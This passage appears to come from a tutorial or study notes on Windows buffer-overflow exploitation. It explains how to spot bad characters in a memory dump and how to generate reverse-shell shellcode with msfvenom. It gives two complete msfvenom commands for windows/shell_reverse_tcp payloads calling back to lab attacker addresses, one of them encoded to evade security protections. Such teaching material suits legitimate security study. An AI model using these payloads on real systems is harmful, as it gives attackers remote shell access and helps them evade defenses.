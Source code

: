        * now start search in **DUMP** if there are any char in wrong place or removed
        * when u find consecutive bad chars u have to worry about the first of them not the second (if u removed both it will still work)
        * sometimes when a bad char has been removed it substitute with another char (try to search for that char will be easiest to identify the bad chars but take care not all of them are bad sometimes there’s that that char in it’s right place not a substitution)

    use MSVENOM to create a shell code

    <figure><img src="../../../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=443 -e x86/shikata_ga_nai -b "\\x00\\x0a\\x0d" -f c
    ```

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"
    ```

    *   **Breaking Down the Command:**

        🔹 `msfvenom` → A tool used to generate **custom payloads**.

        🔹 `-a x86` → Specifies **32-bit architecture (x86)**.

        🔹 `--platform Windows` → The target operating system is **Windows**.

        🔹 `-p windows/shell_reverse_tcp` → Creates a **Reverse Shell Payload** (the target system connects back to the attacker's machine).

        🔹 `LHOST=10.0.2.5` → The attacker's **IP address** (your machine).

        🔹 `LPORT=443` → The **port** on which your machine will listen for incoming connections.

        🔹 `-e x86/shikata_ga_nai` → **Encodes the shellcode** using `shikata_ga_nai` to bypass some security protections.
